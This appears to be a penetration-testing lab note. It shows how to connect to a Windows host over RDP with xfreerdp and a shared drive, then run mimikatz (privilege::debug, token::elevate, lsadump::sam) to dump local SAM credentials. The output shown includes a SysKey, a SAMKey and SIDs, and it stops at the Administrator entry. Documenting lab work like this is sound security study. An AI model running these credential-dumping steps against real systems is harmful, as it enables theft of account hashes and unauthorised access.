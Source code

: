 Notes on RDP:

xfreerdp is very useful.

```
sudo apt install freerdp2-x11
```

Connection:

```
xfreerdp /v:IP /u:USERNAME /p:PASSWORD
```

Useful commands:

```
/dynamic-resolution - allows resizing of window and adjusts resolution
/size:WIDTHxHEIGHT - set specific size for targets
+clipboard - enables clipboard support
/drive:LOCAL_DIRECTORY,SHARE_NAME - create shared drive between attack source and target
```

Let's use xfreerdp to get a share drive with the target and launch mimikatz to get users hashes with an lsass dump.

```
xfreerdp /v:10.200.72.150 /u:USERNAME /p:PASSWORD +clipboard /dynamic-resolution /drive:/usr/share/windows-resources,share
```

Now that we have created an RDP session, we should give ourselves debug privileges and escalate to system to run an lsadump using mimikatz from our shared folder.

```
C:\Windows\system32>\\tsclient\share\mimikatz\x64\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 18 2020 19:18:29
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # token::elevate
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM

672     {0;000003e7} 1 D 20128          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Primary
 -> Impersonated !
 * Process Token : {0;0007f416} 2 F 1092103     GIT-SERV\Ferrari404     S-1-5-21-3335744492-1614955177-2693036043-1002
(15g,24p)       Primary
 * Thread Token  : {0;000003e7} 1 D 1309425     NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Impersonation (Delegation)

mimikatz # lsadump::sam
Domain : GIT-SERV
SysKey : 0841f6354f4b96d21b99345d07b66571
Local SID : S-1-5-21-3335744492-1614955177-2693036043

SAMKey : f4a3c96f8149df966517ec3554632cf4

RID  : 000001f4 (500)
User : Administrator
```